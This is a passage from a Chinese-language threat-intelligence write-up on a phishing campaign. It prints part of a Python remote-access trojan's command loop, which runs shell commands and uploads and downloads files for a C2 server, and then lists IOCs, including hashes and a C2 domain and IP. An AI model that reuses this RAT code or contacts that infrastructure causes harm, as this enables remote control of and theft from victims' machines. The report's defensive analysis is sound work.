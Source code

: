 ```
                            mp_send_message(secure_server_conn, message_id, response)
                        if message_type == "HEARTH_BEAT":
                            response = {"@type": "simpleResponse", 'content': None}
                            mp_send_message(secure_server_conn, message_id, response)
                        elif message_type == "USER_INFO":
                            response = get_user_info()
                            response = {"@type": "simpleResponse", 'content': ["core.managment.UserInfo", response]}
                            mp_send_message(secure_server_conn, message_id, response)
                        elif message_type == "SHELL":
                            command = content['command']
                            if command.startswith('cd'):
                                path = command[2:].strip()
                                response = mp_change_dir(path)
                            else:
                                response = run_command(command)
                            response = {"@type": "simpleResponse",
                                        'content': ["core.managment.ShellCommandResult", response]}
                            mp_send_message(secure_server_conn, message_id, response)
                        elif message_type == "PREPARE_UPLOAD":
                            destinationPath = content
                            mp_prepare_upload(destinationPath)
                        elif message_type == "UPLOAD":
                            destinationPath = content
                            mp_upload(destinationPath)
                        elif message_type == "DOWNLOAD":
                            destinationPath = content['path']
                            offset = content['offset']
                            mp_download(destinationPath, offset)
    except Exception as e:
        traceback.print_exc()
        print("[-] CaaaaAaAaaannnn't rreeeaaaaccccch tTtTtttHHhhhhe ssSssSsssEEEsseRRrrrrvvvveEErrr...")
        time.sleep(120)
`
```

## 关联分析:

通过搜索其使用的服务器ip地址信息,可以关联到此次其他样本,根据发现的开源分析报告和对比样本的编译时间可以判断该样本是此次攻击活动同一批的攻击样本![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)同样是利用钓鱼文档,运用了相同的隐写方法然后解压出远控,隐写的名称也是相同的"puNK"字段,不同的是,此样本后续的Rat是c#开发<img width="677" height="441" src="../../../_resources/640_wx_fmt_png_wxfrom_5_wx_lazy__e01588a690d048af8.png"/>

## iocs:

| name | md5 |
| --- | --- |
| 42f5f5474431738f91f612d9765b3fc9b85a547274ea64aa034298ad97ad28f4.doc | fe185f106730583156f39233f77f8019 |
|     |     |
| ef02527858797356c5e8571c5a22d00c481fbc9ce73c81a341d482ea3776878a.doc | ef02527858797356c5e8571c5a22d00c481fbc9ce73c81a341d482ea3776878a |
| c2  | ip  |
| pook.mywire.org | 111.90.150.37 |
